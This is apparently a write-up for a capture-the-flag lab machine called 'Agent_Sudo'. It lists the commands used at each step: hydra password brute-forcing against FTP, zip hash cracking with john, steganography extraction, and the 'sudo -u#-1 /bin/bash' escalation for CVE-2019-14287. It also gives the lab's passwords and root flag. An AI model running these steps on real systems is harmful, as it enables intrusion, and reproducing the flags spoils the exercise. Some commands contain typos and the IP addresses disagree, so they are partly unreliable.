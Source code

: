 # Machine Name : Agent_Sudo
# Machine IP : 110.10.167.223

***TASK1***
```
Deploy
```

***TASK2***
```
1.How many open ports?
: 3

2.How you redirect yourself to a secret page?
: user-agent

3.What is the agent name?
: curl "{ip}" -H "user-agent:c" -L
```

***TASK3***
1.FTP Password
```
: hydra -l chris -P commmon_password_list.txt 10.10.79.0 ftp
```

2.Zip file password
```
: strings cutie.png
: binwalk -e cutie.png
: zip2john 8702.zip > hashes_for_john.txt
: john hashes_for_jhon.txt --worlist={password file path}
```
-> alien

3.steg password
```
: 7z e 8702.zip
: cat To_agentR.txt
: echo  base64msg | base64 -d
-> Area51
```

4.Who is the other agent (in full name)?
```
: steghide extract -sf cute-alien.jpg
-> james
```

5.ssh password
```
:hackerrules!
```
***TASK4: Capture the user flag***


***TASK5: Privilege Escalation***
```
#1 CVE number for the escalation : cve-2019-14287
-> sudo -u#-1 /bin/bash

#2 What is the root flag : 53a02f55b57d4439e3341834d70c062

#3 (Bonus) Who is Agent R? : DesKel

```
